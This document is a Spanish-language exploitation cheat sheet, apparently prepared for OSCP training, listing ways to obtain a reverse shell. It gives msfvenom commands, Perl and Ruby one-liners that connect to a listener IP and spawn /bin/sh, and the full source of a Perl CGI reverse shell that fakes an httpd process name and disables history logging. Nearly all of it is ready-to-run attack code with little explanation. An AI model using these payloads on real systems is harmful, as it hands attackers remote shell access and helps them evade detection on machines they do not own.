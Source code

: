 # Seccion de explotacion

## Shell reversa

Previamente `export PAYLOAD=<nombre-payload>; export LHOST=<IP-local>; export LPORT=<puerto local>`

### Multi Handler
1) Generar un Multi Handler automatico --> `$OSCP/explotacion/multi-handler/generator.sh $PAYLOAD $LHOST $LPORT`

### Shell reversas

2) JSP  --> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw > shell.jsp`

3) PHP  --> `$OSCP/explotacion/reverse-shells/php-reverse/generator.sh $LHOST $LPORT`

4) PERL --> `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

5) RUBY --> `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

6) CGI --> https://github.com/ferreirasc/oscp/blob/master/payloads/reverse_shell.cgi 
<pre>
#!/usr/bin/perl -w
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

<b># Where to send the reverse shell.  Change these.
my $ip = '10.11.0.44';
my $port = 1234;</b>

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any 
		# source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
	cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

	if ($auth) {
		unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
			cgiprint("ERROR: Your client isn't authorised to view this page");
			cgiexit();
		}
	}
} elsif ($auth) {
	cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
	cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
	my $pid = fork();
	if ($pid) {
		cgiexit(0); # parent exits
	}

	setsid();
	chdir('/');
	umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
	cgiprint("Sent reverse shell to $ip:$port");
	cgiprintpage();
} else {
	cgiprint("Couldn't open reverse shell to $ip:$port: $!");
	cgiexit();	
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
	my $line = shift;
	$line .= "<p>\n";
	$global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
	cgiprintpage();
	exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
	print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
</pre>






